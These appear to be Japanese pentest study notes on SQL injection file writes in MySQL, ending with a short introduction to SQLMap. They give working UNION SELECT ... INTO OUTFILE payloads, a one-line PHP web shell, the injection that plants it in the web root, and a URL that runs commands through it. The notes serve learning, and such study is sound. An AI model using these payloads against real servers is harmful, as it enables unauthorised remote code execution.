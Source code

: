 - 目的
	- SQLインジェクションで、サーバーに**ファイルを書き込む**
	- 例：サーバーにメッセージを書いたり、**Webシェル**を置いて操作する

- 書き込みに必要な条件
	- 自分のDBユーザーが**FILE権限**を持っている
	- `secure_file_priv` という設定が**空か無効**になっている
	- 書きたい場所に**書き込める権限**がある（例：`/var/www/html/`）

- 書き込みできるか確認する方法
	- 現在のユーザーを確認：`SELECT USER();`
	- `secure_file_priv` の状態を確認：
		- SQL例：`SELECT variable_value FROM information_schema.global_variables WHERE variable_name = "secure_file_priv";`
		- 空（""）ならOK！
実際のsqlインジェクション例
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

- 書き込みのやり方（SELECT INTO OUTFILE）
	- 書き込み例（文字列を書き出す）：
		- `SELECT 'hello world' INTO OUTFILE '/tmp/test.txt';`
	- 書き込み例（テーブルの内容をファイルに保存）：
		- `SELECT * FROM users INTO OUTFILE '/tmp/users.txt';`

SQLインジェクションを使った書き込み例
```sql
' UNION SELECT 1, '書き込み成功！', 3, 4 INTO OUTFILE '/var/www/html/proof.txt'-- -
```
- 書き込んだファイルは、Webブラウザから確認できる：  
  例 → `http://<サーバーIP>/proof.txt`

- Webシェルの書き込み
	- 中身：`<?php system($_REQUEST[0]); ?>`
	- ペイロード例：
```sql
' UNION SELECT "", "<?php system($_REQUEST[0]); ?>", "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```
- 実行確認：
	- `http://<サーバーIP>/shell.php?0=id`
- 結果に `uid=33(www-data)` などが出たら、**コード実行に成功！**

- よくある書き込み先（Linuxの場合）
	- `/tmp/`（テスト用）
	- `/var/www/html/`（Webシェル用）
	- `/var/lib/mysql-files/`（MySQLのデフォルト）

- 注意点
	- 実行権限のあるWebディレクトリに書き込めないと、Webシェルは動かない
	- `secure_file_priv` が `NULL` の場合は**書き込みが完全に禁止されている**


# SQLMap
- SQLMapは、Pythonで書かれたオープンソースのペンテストツール
- SQLインジェクション（SQLi）の検出と悪用を自動化するためのもの
